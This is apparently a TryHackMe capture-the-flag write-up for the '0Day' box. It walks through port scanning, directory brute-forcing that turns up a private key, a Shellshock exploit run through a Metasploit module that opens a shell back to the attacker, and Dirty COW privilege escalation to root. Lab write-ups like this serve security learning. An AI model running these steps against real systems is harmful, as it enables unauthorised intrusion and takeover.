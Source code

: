 ```yaml
---
title: 0Day
author: Teja
date: 02-10-2021
categories: [Writeups, Pentesting]
tags: [tryhackmeBox]
---
```


## Recon

The nmap scan gave us the that there were only 2 ports open on this.\

```
ssh - 22
http - 80
```
running a gobuster scan on website we get that there are some interesting directories.\

One of them was `/backup` which gave me a rsa private key.
Another was `/cgi-bin`. So I checked that with nikto and turns out it vulnerable to shell-shock.

## Exploitation

search for shell-shock on metasploit.

```bash
use multi/http/apache_mod_cgi_bash_env_exec
set rhost $IP
set targeturi /cgi-bin/test.cgi
set lhost tun0
run
```

## Priv Esc

After getting a shell and not being able to find any priv esc method. I saw the ubuntu version.
it was 14.04 so we can use dirty cow to exploit it.

```bash
gcc dc.c -o dc -pthread
chmod +x dc
./dc
```

Start a python server and upload this to the machine and run it.\
We have root access now.
